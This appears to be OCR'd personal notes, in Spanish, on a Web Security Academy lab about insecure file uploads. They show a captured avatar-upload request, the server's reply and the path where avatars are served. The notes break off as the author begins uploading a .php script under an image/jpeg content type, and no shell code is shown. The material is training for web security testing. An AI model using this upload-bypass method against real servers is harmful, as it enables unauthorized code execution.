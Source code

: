 ```python
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a4c004903c9c60e832419d800720000.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydMSvUDBM3tjWIOov
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4c004903c9c60e832419d800720000.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8

------WebKitFormBoundarydMSvUDBM3tjWIOov
Content-Disposition: form-data; name="avatar"; filename="_58adb40c-aeb8-4be6-91c7-70efe1f7cd50.jpeg"
Content-Type: image/jpeg

ÿØÿë2ÎJP6............


------WebKitFormBoundarydMSvUDBM3tjWIOov
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarydMSvUDBM3tjWIOov
Content-Disposition: form-data; name="csrf"

hSQKRANZGUSIyf52h7rwucEqWy5PKBWa
------WebKitFormBoundarydMSvUDBM3tjWIOov--





LUEGO DE CARGAR El AVATAR NOS MUESTRA ESTO EN LA WEB QUE SE CAGO LA IMAGEN:


The file avatars/_58adb40c-aeb8-4be6-91c7-70efe1f7cd50.jpeg has been uploaded.
� Back to My Account





LUEGO EN EL PANEL VERIFICAMOS CON QUE RUTA SE CARGA PARA MOSTRASCE EL AVATAR:


<img src="/files/avatars/_58adb40c-aeb8-4be6-91c7-70efe1f7cd50.jpeg" class="avatar">





PRIMERA PRUEBA DE CARGA DEL SCRIPT DEJAMOS EL CONTENT TYPE EN IMAGE/JPEG Y PUSIMOS EL FILE NAME CON NUESTRO NOMBRE E ARCHIVO .PHP:

```